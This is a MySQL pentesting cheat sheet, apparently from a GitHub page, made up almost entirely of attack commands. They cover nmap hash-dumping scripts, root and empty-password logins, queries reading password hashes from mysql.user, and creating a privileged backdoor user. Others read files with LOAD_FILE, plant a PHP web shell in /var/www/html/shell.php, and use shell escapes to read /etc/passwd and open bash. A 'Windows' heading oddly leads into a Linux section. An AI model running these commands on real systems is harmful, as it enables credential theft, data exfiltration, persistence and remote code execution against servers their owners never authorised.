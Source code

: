 

----
## MYSQL Pentesting

nmap -sV -p 3306 --script mysql-audit,mysql-databases,mysql-dump-hashes,mysql-empty-password,mysql-enum,mysql-info,mysql-query,mysql-users,mysql-variables,mysql-vuln-cve2012-2122 TARGET_IP


##  MYSQL Version - MSF


use auxiliary/scanner/mysql/mysql_version



## Mysql client

mysql -h TARGET_IP
mysql -h TARGET_IP -u root
mysql -h TARGET_IP -u root@localhost
mysql -h TARGET_IP -u ""@localhost
mysql -h TARGET_IP -e "QUERY"
mysql -h TARGET_IP -u root -pPASSWORD -e "QUERY"


##  Run several sql commands concurrently

mysql -u username -p < manycommands.sql



##  SQL - Command History

cat ~/.mysql.history



##  SQL -  Dump DB

mysqldump -u USERNAME -p PASSWORD --all-databases --skip-lock-tables > dump.sql

mysqldump -u USERNAME -p PASSWORD DATABASE_NAME --skip-lock-tables > dump.sql




##  SQL - Queries

##  Enum SQL

SELECT version();
SELECT user();
SELECT database();
show databases;
SHOW TABLES;
SHOW TABLES FROM DATABASE_NAME;
SHOW Grants;
show variables;


##  DB user Info

SELECT user,password, file_priv FROM mysql.user;



##  SQL DB user Info

SELECT host, user, authentication_string from mysql.user;



##  SQL - Create a new user and grant him privileges

create user test identified by 'test';
grant SELECT,CREATE,DROP,UPDATE,DELETE,INSERT on *.* to mysql identified by 'mysql' WITH GRANT OPTION;



## Interact with OS


##  SQL - Read file

SELECT LOAD_FILE('FILE_PATH');


##  SQL - Read file BASE64

This is useful to read a php file while doing sqli

SELECT BASE64(LOAD_FILE('FILE_PATH'));


##  SQL -  Write file

SELECT "<?php echo system($_GET['cmd']);?>" into OUTFILE '/var/www/html/shell.php'


##  SQL - Remote Code Execution (Windows)


### Linux

mysql> \! cat /etc/passwd
mysql> \! bash
